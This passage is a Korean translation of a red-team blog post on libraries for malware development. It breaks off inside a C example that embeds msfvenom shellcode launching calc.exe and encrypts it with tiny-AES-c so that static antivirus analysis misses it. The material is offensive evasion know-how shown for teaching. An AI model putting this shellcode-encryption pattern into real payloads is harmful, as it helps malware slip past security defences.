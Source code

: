 ```yaml
---
title: "[Translation] 악성코드 개발에 유용한 라이브러리들"
author: idioth
tags: [idioth, malware, developments, tools, library]
categories: [Translation]
date: 2022-02-20 14:00:00
cc: true
index_img: /2022/02/20/idioth/useful_libs_for_malware_dev/Untitled%205.png
---
```


안녕하세요. idioth입니다. 원래 작성하려 했던 게시글은 이 주제가 아닌데 부득이하게 몸이 안 좋아서 번역 글로 대체합니다. ~~Malware라는 글자만 보면 무작위 하게 글을 수집하는 버릇이 이럴 때 좋네요.~~  아무튼 이번에 가져온 게시글은 악성코드 개발 시 유용한 라이브러리들에 대한 소개입니다. 오랜만에 진행하는 번역 글이라 의역 및 오역이 많을 수 있습니다. 피드백은 언제나 환영입니다. :)

> **원문 글: [Useful Libraries for Malware Development](https://captmeelo.com//redteam/maldev/2022/02/16/libraries-for-maldev.html)**
> 

---

초심자가 시간을 절약하고 싶고 바로 동작하는 프로그램을 원하면 라이브러리를 사용하여 개발하는 것이 좋다.

이 게시글에서 필자가 악성코드를 개발하는 동안 찾은 유용하고 쉽게 사용할 수 있는 라이브러리 몇 가지를 공유할 것이다.

# tiny-AES-c

악성코드를 작성할 때 shellcode는 반드시 암호화해야 한다. 그렇지 않으면 정적 분석에 악성코드가 탐지될 것이다. 추천하는 shellcode 암호화 방식 중 하나는 AES를 사용하는 것이며 [kokke/tiny-AES-c](https://github.com/kokke/tiny-AES-c) 라이브러리를 사용하면 쉽게 구현이 가능하다. 

이 라이브러리를 사용하려면 프로젝트에 아래의 헤더 파일과 소스 파일만 추가하면 된다.

- [aes.hpp](https://raw.githubusercontent.com/kokke/tiny-AES-c/master/aes.hpp)
- [aes.h](https://raw.githubusercontent.com/kokke/tiny-AES-c/master/aes.h)
- [aes.c](https://raw.githubusercontent.com/kokke/tiny-AES-c/master/aes.c)

CBC 모드를 사용한 AES 암호화 코드의 예제와 그 결과 값은 다음과 같다.

```c
#include <Windows.h>
#include <stdio.h>
#include "lib/aes.hpp"

int main()
{
	// msfvenom -p windows/x64/exec CMD=calc EXITFUNC=thread -f c 
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x00";
	SIZE_T shellcodeSize = sizeof(shellcode);

	unsigned char key[] = "Captain.MeeloIsTheSuperSecretKey";
	unsigned char iv[] = "\x9d\x02\x35\x3b\xa3\x4b\xec\x26\x13\x88\x58\x51\x11\x47\xa5\x98";

	struct AES_ctx ctx;
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_encrypt_buffer(&ctx, shellcode, shellcodeSize);
```